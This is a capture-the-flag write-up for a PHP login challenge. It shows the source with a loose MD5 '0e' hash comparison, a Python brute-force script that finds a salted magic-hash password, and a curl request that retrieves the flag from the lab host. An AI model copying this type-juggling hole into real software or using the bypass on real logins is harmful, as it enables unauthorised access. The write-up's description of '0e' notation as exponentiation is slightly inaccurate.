

# COMPARE THE PAIR [MODERATE]

## Description

> Can you identify a way to bypass our login logic? MD5 is supposed to be a one-way function right?

## Source Code



<details><summary>Click here for source code in text format</summary>

```php
<?php
  require_once('flag.php');
  $password_hash = "0e902564435691274142490923013038";
  $salt = "f789bbc328a3d1a3";
  if(isset($_GET['password']) && md5($salt . $_GET['password']) == $password_hash){
    echo $flag;
  }
  echo highlight_file(__FILE__, true);
>?
```

</details>

## Short Solution Description / Tags

PHP Type Juggling, Comparison with 0e password hash

## Solution

The comparison with `md5($salt . $_GET['password'])` and `$password_hash` is used by `==` so it's Type Juggling.
In PHP, 0e123456789 is 0 to the 123456789th power.
This is evaluated as 0 because 0 raised to any power is 0.
Thus, when comparison with `==`, the `$password_hash` that starts with `0e` is evaluated as 0.

If I could find a password that `md5($salt . $_GET['password'])` starts with `0e`, I can bypass the if condition and get the flag.

Tested for Type Juggling in PHP Console:

```php
php > echo 0e123456789;
0
php > $password_hash = "0e902564435691274142490923013038";
php > var_dump("0e123456789" == $password_hash);
bool(true)
```

Brute force until I found md5 hash that starts with `0e`.

solver.py

```python
import hashlib
import string
from itertools import product


def main():
    salt = "f789bbc328a3d1a3"
    possible = string.digits + string.ascii_letters + string.punctuation

    for i in range(99):
        for password in product(possible, repeat=i):
            password = "".join(password)
            salt_password = salt + password

            m = hashlib.md5()
            m.update(salt_password.encode())
            hash = m.hexdigest()

            print(salt_password, end="\r", flush=True)

            if hash[:2] == "0e" and hash[2:].isdigit():
                print(f"{password=}, {hash=}")
                return


if __name__ == "__main__":
    main()
```

Result:

```console
$ python3 solver.py
password='08*v.', hash='0e680951791073325027926177216355'

$ curl -s https://aea0de9234f750fa.247ctf.com/ -G --data-urlencode 'password=08*v.' | grep -oE '247CTF{.*}'
247CTF{[REDACTED]}
```

## References

- [PHP: Type Juggling - Manual](https://www.php.net/manual/en/language.types.type-juggling.php)
- [PHP: Strings - Manual](https://www.php.net/manual/en/language.types.string.php#123393)
- [Type Juggling - Payloads All The Things](https://swisskyrepo.github.io/PayloadsAllTheThings/Type%20Juggling/#magic-hashes)
